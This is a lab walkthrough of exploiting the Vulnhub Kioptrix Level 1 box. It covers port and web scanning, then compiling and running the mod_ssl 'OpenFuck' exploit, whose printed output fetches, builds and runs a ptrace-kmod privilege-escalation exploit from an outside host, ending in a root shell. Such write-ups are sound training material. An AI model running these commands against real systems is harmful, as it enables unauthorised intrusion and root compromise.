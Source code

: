 ```yaml
---
title: "Vulnhub: Kioptix Level 1"
layout: archive
date:   2021-01-04
tags: Vulnhub
tags_label: true
---
```

This is the first box in the Kioptix series from vulnhub. It is a beginner level box. Keep in mind that there are no flags on this machine.
From this list: `https://github.com/Ignitetechnologies/CTF-Difficulty`

### Scanning

Find the device on the network:

```
crazyeights@es-base:~$ nmap -PS 192.168.0.1-255

Nmap scan report for 192.168.0.202
Host is up (0.00098s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm

```

Find details about running services, the only important details found were apache version, hostname

```
crazyeights@es-base:~$ nmap -A -p- 192.168.0.202
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-04 10:13 EST
Nmap scan report for 192.168.0.202
Host is up (0.00060s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      1 (RPC #100024)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

### Web:

Index Page:

![](/assets/images/kio1.png)

Enumeration:

```
crazyeights@es-base:~$ dirb http://192.168.0.202
```
Found nothing

With nikto:

```
crazyeights@es-base:~$ nikto -h http://192.168.0.202
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
[SNIP]
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
[SNIP]
```

The vulnerability must involve mod\_ssl:
```
crazyeights@es-base:~$ searchsploit mod_ssl
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Apache mod_ssl 2.0.x - Remote Denial of Servi | linux/dos/24590.txt
Apache mod_ssl 2.8.x - Off-by-One HTAccess Bu | multiple/dos/21575.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2. | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2. | unix/remote/764.c
Apache mod_ssl OpenSSL < 0.9.6d / < 0.9.7-bet | unix/remote/40347.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
crazyeights@es-base:~$ 

```

*   Using 764.c - most recent i think
*   Couldn't compile exploit
*   Found an article explaining how to compile the exploit on more recent OSs:

```
https://www.hypn.za.net/blog/2017/08/27/compiling-exploit-764-c-in-2017/
```

Make the changes it says in the article, and it will compile, and download ptrace-mod for privilege escalation after the exploit has successfully run (2021)

Compile the exploit:

```
crazyeights@es-base:~$ gcc -o 764 764.c -lcrypto
```

Exploit Usage:

```
: Usage: ./764 target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
```

You have to select the OS, and apache version

There are two possiblilities:

```
0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
```
This doesn't work:

```
crazyeights@es-base:~$ ./764 0x6a 192.168.0.202 443 -c 40
```

This one works:

```
crazyeights@es-base:~$ ./764 0x6b 192.168.0.202 443 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8070
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304 
--11:58:50--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

11:58:50 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 6283
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
```

### Root:

We have a root shell:

```
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Looked for flags found none.

FIN. 🥳